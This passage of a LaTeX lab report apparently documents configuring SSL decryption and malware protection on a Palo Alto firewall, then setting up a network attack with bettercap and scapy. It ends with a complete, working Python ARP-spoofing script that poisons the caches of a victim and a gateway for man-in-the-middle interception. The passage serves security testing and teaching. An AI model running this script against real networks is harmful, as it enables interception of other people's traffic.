 
\includegraphics[width=13cm]{img/decryption_policy.png}
	\caption{Brief overview of the Decryption Policy used}\label{Decryption Policy}
\end{figure}

It's also possible to define some exceptions where the website included in it won't ever be decrypted, in case of trusted websites or when the website policy doesn't allow this form of redirection, for example when \glsxtrfull{hsts}\cite{hsts} is enabled.

\begin{figure}[!h]
\centering
 
\includegraphics[width=12cm]{img/decryption_exceptions.png}
	\caption{A list of Decryption Exceptions}\label{Decryption Exceptions}
\end{figure}


\newpage

\section{Setting up Malware Protection}

In order to setup Malware Protection in Palo Alto Firewall's solution, the correct license must be installed first, specifically Adv. Threat Prevention, Threat Prevention and Wildfire, the latter for sandboxed malware analysis:

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/PAN_Licenses.png}
 % PAN_Licenses.png: 847x705 px, 300dpi, 7.17x5.97 cm, bb=0 0 203 169
 \caption{The Palo Alto Firewall Licenses available, the highlighted ones are the essential licenses for malware protection}
 \label{fig: PanOS Licenses}
\end{figure}

\newpage

Afterwards to activate the protection, we need to enable a security profile in the Firewall Policy created earlier, the one that allows outgoing traffic.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/policy_security.png}
 % policy_security.png: 700x484 px, 96dpi, 18.52x1``2.80 cm, bb=0 0 525 363
 \caption{The Security Profile for any given Firewall Policy, the options can be chosen at will. In this case only malware-related options were selected}
 \label{fig: Policy Security Profile}
\end{figure}

Palo Alto provides frequent updates to Virus/Threats definitions along with the other services like WildFire and GlobalProtect, so it's important to always keep them up to date either manually or by a scheduled download/install.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/updates.png}
 % updates.png: 1305x648 px, 96dpi, 34.52x17.14 cm, bb=0 0 979 486
 \caption{The Dynamic Updates page in \glsxtrshort{panos}}
 \label{fig: updates}
\end{figure}



\section{Testing the Setup}

To verify if \glsxtrshort{ssl} Decryption is working correctly, after connecting to an \glsxtrshort{https} enabled website, this Captive Portal web page should show up before being able to connect.

\begin{figure}[!h]
\centering
 
\includegraphics[width=13cm]{img/ssl_inspection_result.png}
	\caption{The \glsxtrshort{ssl} Inspection Captive portal }\label{SSL Inspection Page}
\end{figure}

It is also possible to look at the certificate used to decrypt the web page and verify that its Certificate Authority is the same as the one that was generated through the Firewall

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/pa_certificate.png}
 % pa_certificate.png: 771x280 px, 96dpi, 20.40x7.41 cm, bb=
 \caption{The Palo Alto Generated Certificate on a foreign web page.
 Note: the \glsxtrshort{ip} address was censored}
 \label{fig: PaloAlto certificate}
\end{figure}


\newpage

When trying to download a malicious file, for example the \glsxtrshort{eicar} test file, the firewall will redirect the client to a portal telling the user it detected a virus and stopped the download.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/virus_blocked.png}
 % virus_blocked.png: 1862x186 px, 96dpi, 49.26x4.92 cm, bb=0 0 1396 139
 \caption{The page the firewall redirects the client to when a threat is detected}
 \label{fig: virus blocked}
\end{figure}

Every time a Threat is detected, it will also be reflected in the Monitor page in \glsxtrshort{panos}, complete with useful analytics to prevent future occurrences.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/detailed_log.png}
 \caption{The Detailed log of the threat in the Monitor Section}
 \label{fig: detailed log}
\end{figure}

\newpage

Since this is a Next Generation Firewall, data regarding threat/blocked activity is recorded and summarized with easy to look-at charts.

This feature is regarded as \glsxtrfull{acc}.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/acc.png}
 % acc.png: 1709x862 px, 96dpi, 45.21x22.80 cm, bb=0 0 1282 646
 \caption{The \glsxtrfull{acc} recap for Threats and Blocked Activity}
 \label{fig: acc}
\end{figure}


\newpage

\section{Setting up the Network Attack}

In order to setup the Network Attack the Open Source penetration testing tools `bettercap`\cite{bettercap} and `scapy`\cite{scapy} will be used.

Wireshark\cite{wireshark}, an open source packet analyzer will also be used to verify the effectiveness of the attacks and provide a broader view into what's happening.

\subsection{Bettercap}

Bettercap is a ``powerful, easily extensible and portable framework written in Go which aims to offer to security researchers, red teamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless \glsxtrshort{hid} devices and Ethernet networks.''\cite{bettercap}

It has both a \glsxtrfull{gui} and a \glsxtrfull{cli}, for simplicity the \glsxtrshort{cli} will be used.

After launching it we can look at the various features through the \verb|help| command:

\begin{figure}[h!]
 \centering
 
\includegraphics[width=4.5cm]{img/bettercap_help.png}
 % bettercap_help.png: 237x492 px, 96dpi, 6.27x13.02 cm, bb=0 0 178 369
 \caption{Bettercap help page}
 \label{fig: bettercap help}
\end{figure}

Every tool is called a caplet, we'll be using the ``https.proxy'' caplet to inspect and replace \glsxtrshort{https} traffic.

\newpage

\subsection{Scapy}

Scapy is an all-in-one tool for packet manipulation.
``It is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more. It can easily handle most classical tasks like scanning, tracerouting, probing, unit tests, attacks or network discovery [...]''\cite{scapy}

Since it uses Python as a command board it's also possible to create a Python script to create more advanced attacks.

In our case we'll use it to create the \glsxtrshort{arp} Spoof attack.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=8cm]{img/testing-taxonomy.png}
 % bettercap_help.png: 237x492 px, 96dpi, 6.27x13.02 cm, bb=0 0 178 369
 \caption{Scapy's Taxonomy}
 \label{fig: scapy taxonomy}
\end{figure}


\newpage

\subsection{Setting up \glsxtrshort{arp} Spoofing}

First of all we need to write our python script to make use of scapy.

The idea is to forge a malign \glsxtrshort{arp} packet where we tell that the gateway's \glsxtrshort{ip} address corresponds the attacker machine and from the gateway (the firewall in this case) point of view the victim is replaced by the attacker instead.

Before doing that we also need the gateway and victim's \glsxtrshort{mac} address, so we'll send a broadcast \glsxtrshort{arp} request for both the victim and gateway.

\begin{lstlisting}[language=python]{}
from scapy.all import *
import argparse
import time

# Get arguments from command line
parser = argparse.ArgumentParser()
parser.add_argument("--victim", dest="victim", help="Victim's IP Address")
parser.add_argument("--gateway", dest="gateway", help="Gateway's IP Address")
options = parser.parse_args()
victim = options.victim
gateway = options.gateway
# Get mac address of the victim and gateway
# Request victim's mac by sending a Broadcast ARP request
print("Victim's IP:\t", victim)
print("Gateways's IP:\t", gateway)
rqst = ARP(pdst=victim)
victim_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
# Request gateway's mac by sending a Broadcast ARP request
rqst = ARP(pdst=gateway)
gateway_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
print("Victim's mac:\t", victim_mac)
print("Gateway's mac:\t", gateway_mac)


print("-----ARP Spoofing------")
try:
    while True:
        #Sends a packet to the victim that fakes being the gateway
        #But the mac address comes from this machine
        packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway)
        send(packet, count=4, verbose=True)
        #The same but this time we fake being the victim
        packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim)
        send(packet, count=4, verbose=True)
        time.sleep(1)
except KeyboardInterrupt:
    # When the program is interrupted we restore the ARP table by
    # sending correct ARP packets by specifying the mac address
    print("Restoring ARP tables")
    packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway, hwsrc=gateway_mac)
    send(packet, count=4, verbose=True)
    packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim, hwsrc=victim_mac)
    send(packet, count=4, verbose=True)
    print("Done")
\end{lstlisting}

\begin{center}
    The Python script used for \glsxtrshort{arp} Spoofing
\end{center}


\newpage

The code can be summarized in this flow diagram:

\begin{figure}[h!]
 \centering
